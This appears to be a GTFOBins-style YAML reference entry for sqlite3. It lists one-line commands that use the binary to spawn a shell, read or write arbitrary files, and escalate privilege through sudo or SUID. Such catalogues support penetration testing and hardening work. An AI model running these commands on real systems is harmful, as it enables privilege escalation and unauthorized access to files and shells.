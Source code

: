 functions:
  shell:
    - code: sqlite3 /dev/null '.shell /bin/sh'
  file-write:
    - code: |
        LFILE=file_to_write
        sqlite3 /dev/null -cmd ".output $LFILE" 'select "DATA";'
  file-read:
    - code: |
        LFILE=file_to_read
        sqlite3 << EOF
        CREATE TABLE t(line TEXT);
        .import $LFILE t
        SELECT * FROM t;
        EOF
  suid:
    - code: |
        LFILE=file_to_read
        sqlite3 << EOF
        CREATE TABLE t(line TEXT);
        .import $LFILE t
        SELECT * FROM t;
        EOF
  sudo:
    - code: sudo sqlite3 /dev/null '.shell /bin/sh'
  limited-suid:
    - code: "./sqlite3 /dev/null '.shell /bin/sh'"
---
